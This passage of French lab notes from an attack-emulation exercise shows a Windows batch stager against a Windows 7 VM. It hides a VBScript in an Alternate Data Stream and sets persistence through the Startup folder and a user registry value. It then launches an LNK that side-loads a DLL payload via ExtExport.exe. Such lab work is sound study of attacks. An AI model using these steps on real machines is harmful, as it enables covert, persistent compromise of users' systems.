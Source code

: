```
type %PATH_LAUNCHER_CREATE_VBS% > %PATH_LAUNCHER_CREATE_ADS% && erase %PATH_LAUNCHER_CREATE_VBS%

rem Execute the launcher creation VBScript from the Alternate Data Stream (ADS).
cscript %PATH_LAUNCHER_CREATE_ADS%

rem #############################################################################

rem Persistence Code Added Here
rem ---------------------------

rem Copy the Launcher to the user's startup folder.
copy %PATH_LAUNCHER_LNK% "C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\%LAUNCHER_LNK%"

rem Add a registry key to the run keys in the user registry hive.
REG ADD "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders" /f /v StartUp /t REG_SZ /d %PATH_LAUNCHER_LNK%

rem ###########################################################################

rem Execute the LNK launcher. This will use ExtExport.exe to side load and execute the DLL payload.
start /b %PATH_LAUNCHER_LNK%
```

**Schéma de l'attaque:**

![d4af0aa956d9338bf97215f3a5dc1d07.png](/img/e7ae134774884b9aa0e38b7e37aee642.png)
Source: [1]

Après avoir modifié le stager, relancer l'attaque sur la VM Win 7

